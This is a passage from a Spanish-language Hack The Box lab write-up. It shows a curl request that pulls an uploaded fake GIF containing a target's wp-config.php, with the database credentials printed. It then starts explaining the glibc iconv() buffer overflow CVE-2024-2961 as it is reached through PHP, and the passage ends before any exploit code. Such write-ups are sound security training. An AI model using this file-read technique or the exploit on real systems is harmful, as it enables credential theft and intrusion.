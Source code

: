El servidor interpreta correctamente la solicitud, ahora deberíamos poder tener el contenido del archivo `wp-config.php` en la nueva "imagen"

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-30.png' -so wp-config.png

cat wp-config.png 

GIF89a<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don\'t have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );
~~~

En este caso no veremos información que nos ayude a ganar acceso, si intentamos leer archivos privilegiados, obviamente no podremos debido a limitaciones de permisos


## Buffer Overflow - `glibc 2.39` (CVE-2024-2961)

Esta vulnerabilidad afecta a la API `iconv()` de `glibc`, en las versiones anteriores a la `2.39` de la librería `glibc`, y permite ejecución arbitraria de código debido a una validación inapropiada de los datos  del usuario. 

La API `iconv()` es usada por PHP para convertir una serie caracteres en distintos `encodings`. Por ejemplo de `UTF-8` a `ISO-2022-CN-EXT`. Esta API es implementada en Linux por `GLIBC`. Para poder entender de forma sencilla cómo funciona este ataque, principalmente debemos comprender lo siguiente: 

> La función `iconv()` de `glibc` no valida correctamente el espacio del búfer de salida al convertir cadenas del conjunto de caracteres `ISO-2022-CN-EXT`. Esto permite un desbordamiento de hasta `4` bytes, permitiendo sobrescribir memoria adyacente
{: .notice--danger}
